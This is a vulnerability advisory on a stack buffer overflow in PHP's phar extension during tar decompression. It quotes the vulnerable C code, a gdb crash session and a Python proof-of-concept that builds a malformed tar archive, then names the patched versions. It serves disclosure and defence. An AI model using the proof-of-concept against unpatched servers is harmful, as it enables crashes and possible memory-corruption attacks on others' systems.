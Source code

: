 #+title: php: stack overflow when decompressing tar archives
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

A stack overflow may occur in PHP[1] when decompressing tar archives due
to ~phar_tar_writeheaders()~ potentially copying non-terminated
linknames from entries parsed by ~phar_parse_tarfile()~ (tested with
5.6.11, 5.6.17 and 7.0.2).


php-5.6.17/ext/phar/tar.h #65..94:
#+begin_src c
typedef struct _tar_header {  /* {{{ */
    [...]
    char linkname[100]; /* name of linked file */
    char magic[6];      /* USTAR indicator */
    char version[2];    /* USTAR version */
    char uname[32];     /* owner user name */
    char gname[32];     /* owner group name */
    char devmajor[8];   /* device major number */
    char devminor[8];   /* device minor number */
    char prefix[155];   /* prefix for file name;
                           the value of the prefix field, if non-null,
                           is prefixed to the name field to allow names
                           longer then 100 characters */
    char padding[12];   /* unused zeroed bytes */
} PHAR_TAR_PACK tar_header;
#+end_src


php-5.6.17/ext/phar/tar.c #198..678:
#+begin_src c
int phar_parse_tarfile(php_stream* fp, char *fname, int fname_len, char *alias, int alias_len, phar_archive_data** pphar, int is_data, php_uint32 compression, char **error TSRMLS_DC) /* {{{ */
{
    char buf[512], *actual_alias = NULL, *p;
    phar_entry_info entry = {0};
    size_t pos = 0, read, totalsize;
    tar_header *hdr;
    php_uint32 sum1, sum2, size, old;
    phar_archive_data *myphar, **actual;
    int last_was_longlink = 0;

    [...]
    read = php_stream_read(fp, buf, sizeof(buf));
    [...]

    do {
        [...]
        hdr = (tar_header*) buf;
        [...]

        if (entry.tar_type == TAR_LINK) {
            [...]
            entry.link = estrdup(hdr->linkname);
        } else if (entry.tar_type == TAR_SYMLINK) {
            entry.link = estrdup(hdr->linkname);
        }
        [...]
        read = php_stream_read(fp, buf, sizeof(buf));
        [...]
    } while (read != 0);
    [...]
}
/* }}} */
#+end_src


linkname is expected to be <=100 bytes and it's estrdup:ed from
~((tar_header *)buf)->linkname~ to ~entry.link~.  However, since there's
no guarantee that ~linkname~ or any of the following buffers are
NUL-terminated, the resulting ~entry.link~ may be at least
sizeof(linkname) + ... + sizeof(padding) = 355 bytes (and possibly
bigger depending on where \0 is encountered).

As the header is later written in ~phar_tar_writeheaders()~, linkname is
strncpy:d to ~char linkname[100]~ with a len based on the source string.

php-5.6.17/ext/phar/tar.c #688..835:
#+begin_src c
static int phar_tar_writeheaders(void *pDest, void *argument TSRMLS_DC) /* {{{ */
{
    tar_header header;
    [...]
    phar_entry_info *entry = (phar_entry_info *) pDest;

    [...]
    if (entry->link) {
        strncpy(header.linkname, entry->link, strlen(entry->link));
    }
    [...]
}
/* }}} */
#+end_src


With php-5.6.17 compiled with -D_FORTIFY_SOURCE=2:

#+begin_src sh
$ python crash.py crash.tar
$ gdb --args php-5.6.17/bin/php phar.php crash.tar ext
(gdb) b tar.c:490
(gdb) r
Breakpoint 1, phar_parse_tarfile [...]
490    entry.link = estrdup(hdr->linkname);

(gdb) call strlen(hdr->linkname)
$1 = 617
(gdb) printf "%s\n", hdr->linkname
linkname...linkname...linkname...linkname...linkname...linkname...
linkname...linkname...linkname...lmagic...uname...uname...uname...
uname...gname...gname...gname...gname...major...minor...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
prefix...prefix...prpadding...paprefix...prefix...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
prefix...prefix...prefix...prefix...prefix...prefix...prefix...
pr/name...name...name...name...name...name...name...name...name...
name...name...name...name...name...na?????

(gdb) b strncpy
(gdb) c
Breakpoint 2, phar_tar_writeheaders [...]
756    strncpy(header.linkname, entry->link, strlen(entry->link));
(gdb) p sizeof(header.linkname)
$2 = 100

(gdb) s
strncpy (__len=617, __src=0x7ffff7fdbbe0 "linkname...linkname...
linkname...linkname...linkname...linkname...linkname...linkname...
linkname...lmagic...uname...uname...uname...uname...gname...gname...
gname...gname...major...minor...prefix...pre"..., __dest=0x7fffffffa13d "")
at /usr/include/x86_64-linux-gnu/bits/string3.h:126
126    return __builtin___strncpy_chk (__dest, __src, __len, __bos (__dest));

(gdb) c
Continuing.
 *** buffer overflow detected ***: /home/php/php-5.6.17/bin/php terminated
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x78c4e)[0x7ffff6fa7c4e]
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x5c)[0x7ffff7047e8c]
/lib/x86_64-linux-gnu/libc.so.6(+0x116e80)[0x7ffff7045e80]
/lib/x86_64-linux-gnu/libc.so.6(+0x116319)[0x7ffff7045319]
/home/php/php-5.6.17/bin/php[0x5983e4]
/home/php/php-5.6.17/bin/php(zend_hash_apply_with_argument+0x79)[0x6f4cf9]
/home/php/php-5.6.17/bin/php[0x59aa84]
/home/php/php-5.6.17/bin/php[0x5af476]
/home/php/php-5.6.17/bin/php[0x5ba050]
/home/php/php-5.6.17/bin/php[0x5baf2a]
/home/php/php-5.6.17/bin/php[0x79543f]
/home/php/php-5.6.17/bin/php(execute_ex+0x40)[0x723a50]
/home/php/php-5.6.17/bin/php(zend_execute_scripts+0x180)[0x6e7dd0]
/home/php/php-5.6.17/bin/php(php_execute_script+0x280)[0x683160]
/home/php/php-5.6.17/bin/php[0x796f32]
/home/php/php-5.6.17/bin/php[0x423c9e]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7ffff6f4fa40]
/home/php/php-5.6.17/bin/php(_start+0x29)[0x423de9]
======= Memory map: ========
00400000-00bff000 r-xp 00000000 08:01 557690                             /home/php/php-5.6.17/bin/php
00dfe000-00e8f000 r--p 007fe000 08:01 557690                             /home/php/php-5.6.17/bin/php
00e8f000-00e98000 rw-p 0088f000 08:01 557690                             /home/php/php-5.6.17/bin/php
00e98000-01051000 rw-p 00000000 00:00 0                                  [heap]
7ffff44f3000-7ffff4931000 r--p 00000000 08:01 136079                     /usr/lib/locale/locale-archive
7ffff4931000-7ffff4947000 r-xp 00000000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4947000-7ffff4b46000 ---p 00016000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4b46000-7ffff4b47000 r--p 00015000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4b47000-7ffff4b48000 rw-p 00016000 08:01 786971                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff4b48000-7ffff4cbb000 r-xp 00000000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4cbb000-7ffff4eba000 ---p 00173000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4eba000-7ffff4ec4000 r--p 00172000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4ec4000-7ffff4ec6000 rw-p 0017c000 08:01 133608                     /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.21
7ffff4ec6000-7ffff4eca000 rw-p 00000000 00:00 0
7ffff4eca000-7ffff6780000 r-xp 00000000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff6780000-7ffff697f000 ---p 018b6000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff697f000-7ffff6980000 r--p 018b5000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff6980000-7ffff6981000 rw-p 018b6000 08:01 140633                     /usr/lib/x86_64-linux-gnu/libicudata.so.55.1
7ffff6981000-7ffff699a000 r-xp 00000000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff699a000-7ffff6b99000 ---p 00019000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff6b99000-7ffff6b9a000 r--p 00018000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff6b9a000-7ffff6b9b000 rw-p 00019000 08:01 787064                     /lib/x86_64-linux-gnu/libz.so.1.2.8
7ffff6b9b000-7ffff6d1a000 r-xp 00000000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6d1a000-7ffff6f1a000 ---p 0017f000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6f1a000-7ffff6f2a000 r--p 0017f000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6f2a000-7ffff6f2b000 rw-p 0018f000 08:01 140629                     /usr/lib/x86_64-linux-gnu/libicuuc.so.55.1
7ffff6f2b000-7ffff6f2f000 rw-p 00000000 00:00 0
7ffff6f2f000-7ffff70ef000 r-xp 00000000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff70ef000-7ffff72ef000 ---p 001c0000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff72ef000-7ffff72f3000 r--p 001c0000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff72f3000-7ffff72f5000 rw-p 001c4000 08:01 786945                     /lib/x86_64-linux-gnu/libc-2.21.so
7ffff72f5000-7ffff72f9000 rw-p 00000000 00:00 0
7ffff72f9000-7ffff74a6000 r-xp 00000000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff74a6000-7ffff76a6000 ---p 001ad000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff76a6000-7ffff76ae000 r--p 001ad000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff76ae000-7ffff76b0000 rw-p 001b5000 08:01 134031                     /usr/lib/x86_64-linux-gnu/libxml2.so.2.9.2
7ffff76b0000-7ffff76b1000 rw-p 00000000 00:00 0
7ffff76b1000-7ffff76b4000 r-xp 00000000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff76b4000-7ffff78b3000 ---p 00003000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff78b3000-7ffff78b4000 r--p 00002000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff78b4000-7ffff78b5000 rw-p 00003000 08:01 786959                     /lib/x86_64-linux-gnu/libdl-2.21.so
7ffff78b5000-7ffff79bc000 r-xp 00000000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff79bc000-7ffff7bbb000 ---p 00107000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff7bbb000-7ffff7bbc000 r--p 00106000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff7bbc000-7ffff7bbd000 rw-p 00107000 08:01 786990                     /lib/x86_64-linux-gnu/libm-2.21.so
7ffff7bbd000-7ffff7bd4000 r-xp 00000000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7bd4000-7ffff7dd4000 ---p 00017000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7dd4000-7ffff7dd6000 r--p 00017000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7dd6000-7ffff7dd7000 rw-p 00019000 08:01 787034                     /lib/x86_64-linux-gnu/libresolv-2.21.so
7ffff7dd7000-7ffff7dd9000 rw-p 00000000 00:00 0
7ffff7dd9000-7ffff7dfd000 r-xp 00000000 08:01 786921                     /lib/x86_64-linux-gnu/ld-2.21.so
7ffff7e51000-7ffff7fea000 rw-p 00000000 00:00 0
7ffff7ff5000-7ffff7ff8000 rw-p 00000000 00:00 0
7ffff7ff8000-7ffff7ffa000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffa000-7ffff7ffc000 r-xp 00000000 00:00 0                          [vdso]
7ffff7ffc000-7ffff7ffd000 r--p 00023000 08:01 786921                     /lib/x86_64-linux-gnu/ld-2.21.so
7ffff7ffd000-7ffff7ffe000 rw-p 00024000 08:01 786921                     /lib/x86_64-linux-gnu/ld-2.21.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

Program received signal SIGABRT, Aborted.
0x00007ffff6f64267 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:55
55    ../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb)
#+end_src


* phar.php
#+begin_src php
<?php
if ($argc != 3) {
    die("$argv[0] filename extension\n");
}

$p = new PharData($argv[1]);
$newp = $p->decompress($argv[2]);
?>
#+end_src


* crash.py
#+begin_src python
# This creates an example .tar with:
#
# 1. a pax header with a ustar\x0000 magic
# 2. a symbolic link with mostly bogus header data
#
# `old' (tar.c:226) will be false due to #1, and with the prefix data of #2,
# `hdr->prefix' will be concatenated with `hdr->name' in `char name[256]',
# starting on tar.c:401:
#
#     else if (!last_was_longlink && !old && hdr->prefix[0] != 0) { ... }
#
# hdr->linkname..hdr->padding in #2 won't be NUL-terminated, resulting
# in a longer than 100 byte `entry.link' in tar.c:490:
#
#     entry.link = estrdup(hdr->linkname);
#
# With the php5-cli (5.6.11+dfsg-1ubuntu3.1) package provided by Ubuntu
# 15.10, as well as with a self-built php-5.6.17, `hdr' is followed by
# the concatenated `name' buffer.
#
# The resulting `entry.link' will thus be hdr->linkname..hdr->padding
# (355 bytes) + name (256 bytes) + whatever else until a NUL byte is
# encountered.
#
# The invocation of `strncpy()' in `phar_tar_writeheaders()' (tar.c:756)
# will therefore end up copying >= 611 bytes to `header.linkname' (100
# bytes)
#
#     strncpy(header.linkname, entry->link, strlen(entry->link));
#
import sys
import struct
from tarfile import (TarFile, TarInfo, calc_chksums, stn, itn,
                     POSIX_MAGIC, PAX_FORMAT, REGTYPE, BLOCKSIZE, SYMTYPE)

class Info(TarInfo):
    @staticmethod
    def _create_header(info, format):
        """
        _create_header() is more or less copy-pasted from
        python2.7/tarfile.py with some minor changes to avoid
        NUL-termination.
        """
        magic = POSIX_MAGIC
        if info["name"] != "././@PaxHeader":
            magic = "magic..."

        parts = [
            stn(info.get("name", ""), 100),
            itn(info.get("mode", 0) & 07777, 8, format),
            itn(info.get("uid", 0), 8, format),
            itn(info.get("gid", 0), 8, format),
            itn(info.get("size", 0), 12, format),
            itn(info.get("mtime", 0), 12, format),
            "        ", # checksum field
            info.get("type", REGTYPE),
            stn(info.get("linkname", ""), 100),
            pad(magic, 8),
            pad("uname...", 32),
            pad("gname...", 32),
            pad("major...", 8),
            pad("minor...", 8),
            pad("prefix...", 155),
            pad("padding...", 12)
        ]

        buf = struct.pack("%ds" % BLOCKSIZE, "".join(parts))
        chksum = calc_chksums(buf[-BLOCKSIZE:])[0]
        buf = buf[:-364] + "%06o\0" % chksum + buf[-357:]
        return buf

def pad(s, length):
    return (s * length)[:length]

def main():
    if len(sys.argv) != 2:
        sys.exit("%s out" % sys.argv[0])

    tar = TarFile(sys.argv[1], "w", format=PAX_FORMAT)

    info = Info()
    info.type = SYMTYPE
    info.linkname = pad("linkname...", 155)
    info.name = pad("name...", 100)

    tar.addfile(info)
    tar.close()

if __name__ == "__main__":
    main()
#+end_src


* Solution

Update to php 5.5.32, 5.6.18 or 7.0.3.


* Footnotes

[1] https://bugs.php.net/bug.php?id=71488
